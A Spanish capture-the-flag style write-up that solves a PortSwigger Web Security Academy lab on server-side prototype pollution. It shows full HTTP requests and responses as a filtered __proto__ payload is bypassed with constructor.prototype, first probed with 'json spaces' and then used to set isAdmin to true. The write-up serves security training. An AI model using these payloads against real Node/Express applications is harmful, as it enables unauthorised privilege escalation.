 ```yaml
---
description: >-
  https://portswigger.net/web-security/prototype-pollution/server-side/lab-bypassing-flawed-input-filters-for-server-side-prototype-pollution
---
```


# Lab 8: Bypassing flawed input filters for server-side prototype pollution

Iniciamos capturando la peticion y enviando el siguiente request:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0a4d00ac040906318067f3b600b7007c.web-security-academy.net
Cookie: session=Sl25AoaD4QZ39pnLlgtkLlvbtBEJ1M8k
Content-Length: 206
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a4d00ac040906318067f3b600b7007c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4d00ac040906318067f3b600b7007c.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"Sl25AoaD4QZ39pnLlgtkLlvbtBEJ1M8k","__proto__": {
    "isAdmin":true
}}
```
{% endcode %}

Pero no funciono:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"c5-o6PbsdZgCxd7ROzSod5GR7NXS6Q"
Date: Tue, 25 Jun 2024 20:49:10 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 197

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false}
```
{% endcode %}

Por lo anterior, se prueba la siguiente carga:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0a4d00ac040906318067f3b600b7007c.web-security-academy.net
Cookie: session=Sl25AoaD4QZ39pnLlgtkLlvbtBEJ1M8k
Content-Length: 208
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a4d00ac040906318067f3b600b7007c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4d00ac040906318067f3b600b7007c.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"Sl25AoaD4QZ39pnLlgtkLlvbtBEJ1M8k","__proto__": {
    "json spaces":10
}}
```
{% endcode %}

La carga utilizada fue:

```json
"__proto__": {
    "json spaces":10
}
```

Al revisar en raw la respuesta no se ve ningun cambio:

{% code overflow="wrap" %}
```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"c5-o6PbsdZgCxd7ROzSod5GR7NXS6Q"
Date: Tue, 25 Jun 2024 20:50:29 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 197

{"username":"wiener","firstname":"Peter","lastname":"Wiener","address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","isAdmin":false}
```
{% endcode %}

Por lo anterior, enviamos esta nueva carga:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0a4d00ac040906318067f3b600b7007c.web-security-academy.net
Cookie: session=Sl25AoaD4QZ39pnLlgtkLlvbtBEJ1M8k
Content-Length: 241
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a4d00ac040906318067f3b600b7007c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4d00ac040906318067f3b600b7007c.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"Sl25AoaD4QZ39pnLlgtkLlvbtBEJ1M8k","constructor": {
    "prototype": {
        "json spaces":10
    }
}}
```
{% endcode %}

La petición previa responde asi:

```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"14f-29q9fCGeCtkRxLWffyqshWpiZ64"
Date: Tue, 25 Jun 2024 20:52:19 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 335

{
          "username": "wiener",
          "firstname": "Peter",
          "lastname": "Wiener",
          "address_line_1": "Wiener HQ",
          "address_line_2": "One Wiener Way",
          "city": "Wienerville",
          "postcode": "BU1 1RP",
          "country": "UK",
          "isAdmin": false,
          "json spaces": 10
}
```

Se puede ver el objeto `"json spaces": 10` y tambien la identacion tiene 10 espacios.

Luego de identificar el payload funcional se procede a manipular el objeto que probablemente esta relacionado con el nivel de autorizacion o permisos de dicho usuario:

{% code overflow="wrap" %}
```json
POST /my-account/change-address HTTP/2
Host: 0a4d00ac040906318067f3b600b7007c.web-security-academy.net
Cookie: session=Sl25AoaD4QZ39pnLlgtkLlvbtBEJ1M8k
Content-Length: 239
Sec-Ch-Ua: "Chromium";v="128", "Not;A=Brand";v="24", "Google Chrome";v="128"
Content-Type: application/json;charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */
Origin: https://0a4d00ac040906318067f3b600b7007c.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4d00ac040906318067f3b600b7007c.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: es-ES,es;q=0.9
Priority: u=1, i

{"address_line_1":"Wiener HQ","address_line_2":"One Wiener Way","city":"Wienerville","postcode":"BU1 1RP","country":"UK","sessionId":"Sl25AoaD4QZ39pnLlgtkLlvbtBEJ1M8k","constructor": {
    "prototype": {
        "isAdmin":true
    }
}}
```
{% endcode %}

La carga utilizada fue:

```json
"constructor": {
    "prototype": {
        "isAdmin":true
    }
}
```

Y el resultado de la peticion fue exitoso:

```json
HTTP/2 200 OK
X-Powered-By: Express
Cache-Control: no-store
Content-Type: application/json; charset=utf-8
Etag: W/"14e-/rxYzhSfiD4zL1vVonmGpZgVmW0"
Date: Tue, 25 Jun 2024 20:55:10 GMT
Keep-Alive: timeout=5
X-Frame-Options: SAMEORIGIN
Content-Length: 334

{
          "username": "wiener",
          "firstname": "Peter",
          "lastname": "Wiener",
          "address_line_1": "Wiener HQ",
          "address_line_2": "One Wiener Way",
          "city": "Wienerville",
          "postcode": "BU1 1RP",
          "country": "UK",
          "isAdmin": true,
          "json spaces": 10
}
```

Por lo anterior, podemos afirmar que se ha realizado una escalacion de privilegios exitosa.
